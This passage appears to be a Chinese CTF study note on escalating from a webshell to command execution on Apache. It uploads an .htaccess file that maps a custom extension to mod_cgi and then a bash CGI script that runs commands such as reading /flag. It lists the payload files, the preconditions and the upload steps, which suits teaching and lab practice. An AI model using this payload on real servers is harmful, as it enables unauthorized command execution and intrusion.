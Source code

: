 *   **概述 (Overview):** 如果 Apache 服务器配置不当，允许在 Web 目录下使用 `.htaccess` 文件覆盖配置，并且开启了 `mod_cgi` 模块，攻击者可以上传一个 `.htaccess` 文件来指示 Apache 将特定后缀（例如 `.wors`）的文件作为 CGI 脚本执行。然后上传一个该后缀的 Shell 脚本，访问它即可执行命令。
*   **工作原理 (Working Principle):**
    1.  **`.htaccess` 配置:** 攻击者在目标目录下创建一个 `.htaccess` 文件，内容类似：
        ```apache
        Options +ExecCGI
        AddHandler cgi-script .wors 
        ```
        *   `Options +ExecCGI`: 允许在该目录下执行 CGI 脚本。
        *   `AddHandler cgi-script .wors`: 告诉 Apache 将所有 `.wors` 后缀的文件交给 CGI 处理器处理。
    2.  **上传 Shell 脚本:** 上传一个具有自定义后缀（如 `shell.wors`）的 Shell 脚本，内容类似：
        ```bash
        #!/bin/bash
        echo "Content-type: text/plain" 
        echo "" 
        /bin/bash -c "id; ls -al; pwd; tac /flag" 
        ```
        **注意:** 脚本需要有可执行权限 (`chmod +x shell.wors`)，并且第一行 `#!/bin/bash` 指定解释器。输出前必须有 `Content-type` 头和空行。
    3.  **触发执行:** 当用户通过 Web 访问 `shell.wors` 时，Apache 会根据 `.htaccess` 的配置，将其作为 CGI 脚本执行，运行其中的 Shell 命令。
*   **利用条件 (Exploitation Conditions):**
    *   目标 Web 服务器是 Apache + PHP。
    *   Apache 加载了 `mod_cgi` 模块。
    *   目标 Web 目录的 Apache 配置中 `AllowOverride` 指令允许 `.htaccess` 文件覆盖 `Options` 和 `AddHandler` (通常需要 `AllowOverride All` 或至少 `AllowOverride Options FileInfo`)。
    *   目标目录可写，允许上传 `.htaccess` 和 Shell 脚本。
    *   能够设置上传的 Shell 脚本具有可执行权限 (通常通过 WebShell)。
*   **利用步骤 / 示例 Payload (Exploitation Steps / Example Payload):**
    1.  通过 WebShell 上传 `.htaccess` 文件 (内容如上)。
    2.  通过 WebShell 上传 `shell.wors` 文件 (内容如上)。
    3.  通过 WebShell 给 `shell.wors` 添加执行权限: `chmod +x shell.wors`。
    4.  在浏览器中访问 `http://target.com/path/to/shell.wors`。
*   **CTFHUB 示例 (CTFHUB Example):**
    ![Apache Mod CGI 1](./images/web7.png)
    (蚁剑连接，可查看 `phpinfo` 确认 Apache、mod_cgi、AllowOverride 等信息)